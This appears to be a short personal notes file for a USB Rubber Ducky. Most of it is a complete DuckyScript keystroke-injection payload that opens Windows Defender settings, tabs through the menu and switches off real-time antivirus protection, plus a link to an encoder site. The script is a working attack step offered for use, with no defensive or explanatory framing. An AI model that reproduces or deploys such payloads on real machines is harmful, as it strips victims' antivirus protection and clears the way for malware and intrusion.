 # Rubber-Ducky-Payload OWN NOTES
 ENCODER https://ducktoolkit.com/


Disable Av Via clicking 

DELAY 1000
REM Open Windows Defender settings
CTRL ESC
DELAY 1000
STRING Windows Defender Settings
DELAY 100
ENTER
REM Navigate to realtime protection and disable it
DELAY 1000
ENTER
DELAY 1000
TAB
DELAY 250
TAB
DELAY 250
TAB
DELAY 250
TAB
ENTER
DELAY 1000
SPACE
DELAY 1000
LEFT
DELAY 500
ENTER
REM Close Settings
DELAY 500
ALT F4
DELAY 100
ALT F4
